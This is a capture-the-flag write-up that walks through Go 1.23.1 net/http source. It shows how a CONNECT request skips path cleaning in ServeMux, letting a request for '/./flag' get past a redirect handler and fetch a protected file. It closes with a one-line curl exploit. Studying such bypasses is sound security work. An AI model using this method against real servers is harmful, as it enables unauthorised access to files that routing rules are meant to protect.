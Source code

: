 # Tomorin db 🐧
> Author: 堇姬Naup

## analyze
Its souce code is short.
It build one fileserver, and we can get under `/app/Tomorin` file.
```go
package main

import "net/http"

func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```

And flag is in `/app/Tomorin`
But when we try to request to get flag, you will be redirected to youtube.
Because it have another handler which handle `/flag` request.

So we try to request `http://host/flag`
You don't get flag, and `/flag` handler will handle it.

When you try to request `http://host/./flag`, `http//host/../flag` or etc.
It still redirect you to youtube.
It sound so strange, so let me check source code.

## golang source code
You can read go 1.23.1 source code.

First read this

[src/net/http/server.go#L2573C1-L2579C2](https://github.com/golang/go/blob/release-branch.go1.23/src/net/http/server.go#L2573C1-L2579C2)

Your request will call `func Hnadler` and it next will call `findHnadler`

```go
func (mux *ServeMux) Handler(r *Request) (h Handler, pattern string) {
	if use121 {
		return mux.mux121.findHandler(r)
	}
	h, p, _, _ := mux.findHandler(r)
	return h, p
}
```

[src/net/http/server.go#L2585](https://github.com/golang/go/blob/release-branch.go1.23/src/net/http/server.go#L2585)

If we request not `CONNECT`, it will enter this part.
It will do `cleanPath(path)`
So if we try to request `http://host/./flag`, `./flag` path will be edit.
It change `./flag` to `/flag`. 

[cleanpath docs](https://pkg.go.dev/github.com/PuerkitoBio/httpmw/cleanpath)

```go
	} else {
		// All other requests have any port stripped and path cleaned
		// before passing to mux.handler.
		host = stripHostPort(r.Host)
		path = cleanPath(path)

		// If the given path is /tree and its handler is not registered,
		// redirect for /tree/.
```

But we can read request method `CONNECT`
```go
	if r.Method == "CONNECT" {
		// If r.URL.Path is /tree and its handler is not registered,
		// the /tree -> /tree/ redirect applies to CONNECT requests
		// but the path canonicalization does not.
		_, _, u := mux.matchOrRedirect(host, r.Method, path, r.URL)
		if u != nil {
			return RedirectHandler(u.String(), StatusMovedPermanently), u.Path, nil, nil
		}
		// Redo the match, this time with r.Host instead of r.URL.Host.
		// Pass a nil URL to skip the trailing-slash redirect logic.
		n, matches, _ = mux.matchOrRedirect(r.Host, r.Method, path, nil)
```
It doesn't call cleanpath cleaning your url path.
And directly call next function.

So we try to do this :

`curl --path-as-is -X CONNECT http://host/./flag`

you will get flag!
PS: If you use curl, curl still normalize the URL path. we can add `--path-as-is` prevent it do normalize.

## script 
```sh
curl --path-as-is -X CONNECT http://host/./flag
```
